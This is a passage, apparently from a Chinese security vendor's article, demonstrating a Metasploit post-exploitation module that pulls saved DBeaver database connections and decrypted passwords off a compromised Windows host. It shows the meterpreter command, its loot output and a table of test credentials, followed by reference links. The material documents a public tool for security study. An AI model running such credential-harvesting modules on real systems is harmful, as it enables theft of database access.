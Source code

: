 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216150621.png)

效果

    
    
    meterpreter > run post/windows/gather/credentials/dbeaver  
      
    [*] Gather Dbeaver Passwords on FireEye  
    [+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt  
    [*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml  
    [+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt  
    [+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt  
    [*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver  
    [+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt  
    [+] Dbeaver Password  
    ================  
      
    Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type  
    ----             --------    --------   ----  --------  --------        --        ---                                        ----  
    Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev  
    Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev  
    localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test  
    postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod  
      
    meterpreter >

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216150621.png)

参考

https://github.com/rapid7/metasploit-framework/pull/17337

https://github.com/dbeaver/dbeaver/wiki/Admin-Manage-Connections

https://stackoverflow.com/questions/39928401/recover-db-password-stored-in-my-
dbeaver-connection

  

 **安恒信息**

✦

杭州亚运会网络安全服务官方合作伙伴

成都大运会网络信息安全类官方赞助商
